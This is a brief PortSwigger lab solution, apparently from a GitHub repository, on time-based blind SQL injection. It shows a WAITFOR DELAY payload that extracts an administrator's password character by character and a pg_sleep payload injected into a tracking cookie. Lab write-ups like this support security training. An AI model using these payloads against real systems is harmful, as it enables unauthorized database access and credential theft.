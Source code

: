 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/3ef3396b-e61e-4f70-b02a-fe32c9bf4e65)

## Solution:

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

`'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/8ae64321-cc21-4f63-971f-cf55afe230b3)

Query made -

`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'`

Query Changed -

`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>' '||pg_sleep(10)--`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/51cbd7f3-51a7-4dc7-97c4-cf7d7fef6347)

We get a response after 10 sec which confirms the SQL injection vulnerability.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/9a2b7dd3-ae1d-4e65-a59e-86c6a75d7d42)

